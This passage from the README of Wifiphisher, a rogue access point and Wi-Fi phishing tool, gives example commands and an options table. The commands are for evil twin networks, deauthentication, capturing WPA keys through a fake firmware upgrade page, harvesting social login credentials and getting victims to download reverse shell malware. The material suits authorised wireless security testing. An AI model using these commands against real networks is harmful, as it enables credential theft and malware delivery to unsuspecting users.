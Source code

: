 Use wlan0 for spawning the rogue Access Point and wlan4 for DoS attacks. Select the target network manually from the list and perform the "Firmware Upgrade" scenario. Verify that the captured Pre-Shared Key is correct by checking it against the handshake in the handshake.pcap file.

Useful for manually selecting the wireless adapters. The <a href="https://wifiphisher.org/ps/firmware-upgrade/">"Firmware Upgrade"</a> scenario is an easy way for obtaining the PSK from a password-protected network.

***

```shell
wifiphisher --essid CONFERENCE_WIFI -p plugin_update -pK s3cr3tp4ssw0rd
```

Automatically pick the right interfaces. Target the Wi-Fi with ESSID "CONFERENCE_WIFI" and perform the "Plugin Update" scenario. The Evil Twin will be password-protected with PSK "s3cr3tp4ssw0rd".

Useful against networks with disclosed PSKs (e.g. in conferences). The <a href="https://wifiphisher.org/ps/plugin_update/">"Plugin Update"</a> scenario provides an easy way for getting the victims to download malicious executables (e.g. malwares containing a reverse shell payload).

***

```shell
wifiphisher --essid "FREE WI-FI" -p oauth-login -kB
```

Simply spawn an open Wi-Fi network with ESSID "FREE WI-FI" and perform the "OAuth Login" scenario. Furthermore, mount the "Known Beacons" Wi-Fi automatic association technique.

Useful against victims in public areas. The <a href="https://wifiphisher.org/ps/oauth-login/">"OAuth Login"</a> scenario provides a simple way for capturing credentials from social networks, like Facebook. 


Following are all the options along with their descriptions (also available with `wifiphisher -h`):

| Short form | Long form | Explanation |
| :----------: | :---------: | :-----------: |
|-h | --help| show this help message and exit |
|-i INTERFACE| --interface INTERFACE| Manually choose an interface that supports both AP and monitor modes for spawning the rogue AP as well as mounting additional Wi-Fi attacks from Extensions (i.e. deauth). Example: -i wlan1 |
|-eI EXTENSIONSINTERFACE| --extensionsinterface EXTENSIONSINTERFACE|	Manually choose an interface that supports monitor mode for running the extensions. Example: -eI wlan1|
|-aI APINTERFACE| --apinterface APINTERFACE|	Manually choose an interface that supports AP mode for spawning an AP. Example: -aI wlan0|
|-kN| --keepnetworkmanager| Do not kill NetworkManager.|
|-nE| --noextensions|	Do not load any extensions.|
|-e ESSID| --essid ESSID|	Enter the ESSID of the rogue Access Point. This option will skip Access Point selection phase. Example: --essid 'Free WiFi'|
|-pPD PHISHING_PAGES_DIRECTORY|--phishing-pages-directory PHISHING_PAGES_DIRECTORY| Search for phishing pages in this location|
|-p PHISHINGSCENARIO| --phishingscenario PHISHINGSCENARIO	|Choose the phishing scenario to run.This option will skip the scenario selection phase. Example: -p firmware_upgrade|
|-pK PRESHAREDKEY| --presharedkey PRESHAREDKEY|	Add WPA/WPA2 protection on the rogue Access Point. Example: -pK s3cr3tp4ssw0rd|
|-qS| --quitonsuccess|	Stop the script after successfully retrieving one pair of credentials.|
|-lC| --lure10-capture| Capture the BSSIDs of the APs that are discovered during AP selection phase. This option is part of Lure10 attack.
|-lE LURE10_EXPLOIT |--lure10-exploit LURE10_EXPLOIT| Fool the Windows Location Service of nearby Windows users to believe it is within an area that was previously captured with --lure10-capture. Part of the Lure10 attack.|
|-iAM| --mac-ap-interface| Specify the MAC address of the AP interface. Example: -iAM 38:EC:11:00:00:00|
|-iEM| --mac-extensions-interface| Specify the MAC address of the extensions interface. Example: -iEM E8:2A:EA:00:00:00|
|-iNM| --no-mac-randomization| Do not change any MAC address.|
|-hC|--handshake-capture|Capture of the WPA/WPA2 handshakes for verifying passphrase. Example: -hC capture.pcap|
|-dE ESSID|--deauth-essid ESSID|Deauth all the BSSIDs in the WLAN with that ESSID.|